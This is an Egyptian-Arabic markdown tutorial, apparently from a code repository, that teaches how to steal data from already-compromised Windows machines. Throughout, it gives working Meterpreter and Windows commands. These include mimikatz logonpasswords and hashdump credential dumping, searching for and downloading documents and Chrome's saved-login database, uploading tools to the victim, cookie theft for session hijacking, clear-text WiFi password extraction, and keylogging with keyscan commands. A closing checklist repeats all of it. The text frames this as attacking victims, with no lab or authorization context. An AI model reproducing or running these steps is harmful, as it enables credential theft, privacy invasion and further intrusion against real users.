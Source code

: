 # **🔹 استخراج البيانات من الأجهزة المخترَقة 🔹**

## **📌 يعني إيه استخراج بيانات من جهاز مخترق؟**

✅ بعد ما تخترق جهاز، أهم خطوة هي **سحب البيانات المهمة** زي:

- كلمات السر والهاشات المخزنة.
- الملفات الحساسة (مستندات، صور، قواعد بيانات، إلخ).
- معلومات عن المستخدمين والشبكة.
- الجلسات الفعالة وأي بيانات تسجيل دخول محفوظة.  
    ✅ الهدف إنك **تحصل على أكبر قدر من المعلومات** لاستخدامها لاحقًا في هجوم أعمق أو لاختراق أجهزة أخرى.

---

## **🔥 طرق استخراج البيانات بعد الاختراق**

### **🟢 1. استخراج كلمات السر من الذاكرة باستخدام Mimikatz**

📌 **Mimikatz بيتيحلك تسحب كلمات السر مباشرة من الذاكرة في ويندوز**  
📌 **لو عندك Meterpreter، حمّل Mimikatz كده:**

```bash
meterpreter > load mimikatz
```

📌 **استخرج كلمات السر المحفوظة في الذاكرة:**

```bash
meterpreter > mimikatz_command -f "privilege::debug"
meterpreter > mimikatz_command -f "sekurlsa::logonpasswords"
```

🎯 **هتلاقي كلمات السر واضحة قدامك لو الجهاز مش محمي كويس!**

📌 **لو عايز تسحب الهاشات:**

```bash
meterpreter > hashdump
```

🎯 **ممكن تفك التشفير باستخدام `John the Ripper` أو `hashcat`**

---

### **🟢 2. سحب ملفات حساسة من الجهاز**

📌 **ممكن تدور على الملفات المهمة الأول:**

```bash
meterpreter > search -f *.docx
meterpreter > search -f *.xlsx
meterpreter > search -f *.pdf
```

🎯 **هيجيب لك كل الملفات بالامتدادات دي**

📌 **لو عايز تحمل ملف معين من الجهاز المخترق:**

```bash
meterpreter > download C:\Users\Administrator\Desktop\secrets.txt .
```

🎯 **كده الملف هينزل على جهازك!**

📌 **لو عايز ترفع ملف على الجهاز الضحية:**

```bash
meterpreter > upload your_tool.exe C:\Windows\Temp
```

🎯 **كده رفعت أداة ممكن تستخدمها لاحقًا!**

---

### **🟢 3. استخراج بيانات الشبكة والاتصالات النشطة**

📌 **لو عايز تعرف الأجهزة المتصلة بنفس الشبكة:**

```bash
meterpreter > run get_local_subnets
```

🎯 **هتعرف الشبكة اللي الضحية متصل بيها، ممكن تستخدمها للهجوم على أجهزة تانية**

📌 **لو عايز تشوف الاتصالات النشطة على الجهاز:**

```bash
netstat -ano
```

🎯 **هتقدر تحدد الأجهزة اللي الضحية بتتواصل معاها**

📌 **لو عايز تعرف كل الشبكات الـ WiFi اللي الجهاز اتصل بيها قبل كده:**

```bash
netsh wlan show profiles
```

🎯 **هتعرف أسماء الشبكات المحفوظة على الجهاز!**

📌 **لو عايز تطلع الباسوردات بتاعت الـ WiFi:**

```bash
netsh wlan show profile name="WiFi_Name" key=clear
```

🎯 **هتشوف الباسورد بتاع الشبكة واضح قدامك**

---

### **🟢 4. استخراج الجلسات المحفوظة وملفات الكوكيز**

📌 **بعض المستخدمين بيحفظوا تسجيل الدخول في المتصفح، وده ممكن تستغله!**  
📌 **لو عندك Meterpreter، استخرج الكوكيز كده:**

```bash
meterpreter > run enum_chrome
```

🎯 **هتاخد كوكيز تسجيل الدخول، ممكن تستخدمها لاستنساخ الجلسة**

📌 **لو عايز تشوف العمليات النشطة وتشوف لو فيه متصفحات مفتوحة:**

```bash
tasklist
```

🎯 **لو لقيت Chrome أو Firefox شغال، ممكن تستخرج كلمات السر والكوكيز**

📌 **لو عايز تسحب بيانات الدخول من المتصفحات يدويًا:**

```bash
meterpreter > download "C:\Users\Username\AppData\Local\Google\Chrome\User Data\Default\Login Data"
```

🎯 **الملف ده فيه بيانات تسجيل الدخول المشفرة، ممكن تفكها بعد كده**

---

### **🟢 5. تشغيل Keylogger لتسجيل المدخلات**

📌 **لو عايز تسجل كل اللي المستخدم بيكتبه على الكيبورد:**

```bash
meterpreter > keyscan_start
```

🎯 **هيبدأ تسجيل كل حاجة بيتكتبها المستخدم!**

📌 **لو عايز تشوف المدخلات اللي اتسجلت:**

```bash
meterpreter > keyscan_dump
```

🎯 **هتقدر تشوف كلمات السر والمحادثات بسهولة**

📌 **لإيقاف الـ Keylogger:**

```bash
meterpreter > keyscan_stop
```

🎯 **كده الـ Keylogger مش هيشتغل تاني**

---

# **💡 الخلاصة بالمصري:**

1️⃣ **عايز تسحب كلمات السر؟ استخدم `mimikatz` أو `hashdump`**  
2️⃣ **دور على الملفات المهمة (`search -f *.pdf`) ونزلها (`download file`)**  
3️⃣ **اعرف الشبكات المتصلة (`netsh wlan show profiles`) واسحب باسوردات الواي فاي**  
4️⃣ **خد بيانات الجلسات من المتصفح (`run enum_chrome`) أو نزل ملفات الكوكيز**  
5️⃣ **شغل `keyscan_start` لتسجيل كل اللي بيتكتب على الكيبورد وسحبه لاحقًا**

---

# **🛠️ خطوات عملية لاستخراج البيانات:**

✅ **1. استخراج كلمات السر والهاشات:**

```bash
meterpreter > load mimikatz
meterpreter > mimikatz_command -f "sekurlsa::logonpasswords"
meterpreter > hashdump
```

✅ **2. البحث عن ملفات حساسة وسحبها:**

```bash
meterpreter > search -f *.pdf
meterpreter > download C:\Users\Administrator\Desktop\secrets.pdf .
```

✅ **3. كشف الشبكات المسجلة وسحب باسوردات WiFi:**

```bash
netsh wlan show profiles
netsh wlan show profile name="WiFi_Name" key=clear
```

✅ **4. استخراج بيانات الجلسات المحفوظة في المتصفح:**

```bash
meterpreter > run enum_chrome
meterpreter > download "C:\Users\Username\AppData\Local\Google\Chrome\User Data\Default\Login Data"
```

✅ **5. تشغيل Keylogger وتسجيل المدخلات:**

```bash
meterpreter > keyscan_start
meterpreter > keyscan_dump
meterpreter > keyscan_stop
```

🎯 **لو مشيت على الخطوات دي، هتقدر تسحب كل البيانات المهمة من الجهاز المخترق بسهولة!** 🚀🔥
